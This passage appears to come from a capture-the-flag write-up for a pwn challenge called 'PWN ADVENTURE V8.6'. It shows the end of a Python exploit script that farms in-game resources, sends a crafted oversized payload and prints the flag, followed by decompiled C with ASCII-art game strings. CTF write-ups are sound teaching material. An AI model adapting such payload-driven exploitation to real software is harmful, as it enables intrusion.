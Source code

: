 ``` python
        log.info(f"buying : {hex(i + 1)} / 0xfa")
        buy_dog(s, b"n")

    for i in range(6):
        log.info(f"selling and buying : {hex(i + 1)} / 0x6")
        sell_dog(s, 0x100000)
        buy_dog(s, b"n")

    payload = b"@"
    payload += b"*" * 3598
    payload += b"z"
    buy_dog(s, b"y", payload)

    for i in range(2):
        for j in range(60):
            log.info(f"farming...")
            move(s, b"d")
        move(s, b"s")
    move(s, b"w")
    move(s, b"w")
    move(s, b"w")
    move(s, b"a")
    
    log.info(f"fight!!!")
    s.sendline(b"1")
    print(s.recvuntil(b"}").split(b"\n")[-1])

if __name__=='__main__':
    main()
```

## 0x04. Decompile
``` c
#define O_MAPPED 0b1000
#define O_READ   0b0100
#define O_WRITE  0b0010
#define O_EXEC   0b0001
char *str_0x6e2 = "====================================================\
                |                PWN ADVENTURE V8.6                |\
                ====================================================\
                |               __                                 |\
                |             _|^ |________                        |\
                |            (____|        |___                    |\
                |                 |________|                       |\
                |                  | |   | |                       |\
                |                                                  |\
                ----------------------------------------------------";
char *str_0xc66 = "====================================================\
                |                  YOU WERE DEAD!                  |\
                ====================================================\
                | HP : 0                                           |\
                |                                                  |\
                |                                                  |\
                |                       ...                        |\
                |                       ___                        |\
                |                      |___|                       |\
                ----------------------------------------------------";
char *str_0x6a5 = "   direction\
                 ________________________________\
                |          W : north             |\
                | A : west             D : east  |\
                |          S : south             |\
```
